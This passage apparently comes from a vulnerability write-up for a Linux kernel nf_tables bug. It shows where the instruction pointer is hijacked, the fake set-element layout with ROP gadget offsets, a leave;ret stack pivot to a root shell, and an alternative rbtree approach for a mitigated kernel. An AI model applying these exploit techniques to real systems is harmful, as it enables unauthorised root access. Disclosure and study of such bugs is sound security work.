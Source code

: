 			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

#### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.

### COS&&Mitigation
Because of this [commit](https://github.com/thejh/linux/commit/5437982404c326744b3921de112ec1654fc6d20b), I cannot use the same method which works fine on LTS slot. After analyzing the code of `net/netfilter/rbtree.c`, I found another idea: I can construct the rbtree structure and then exploit this vulnerability to reinsert a node that should have been removed into the rbtree.

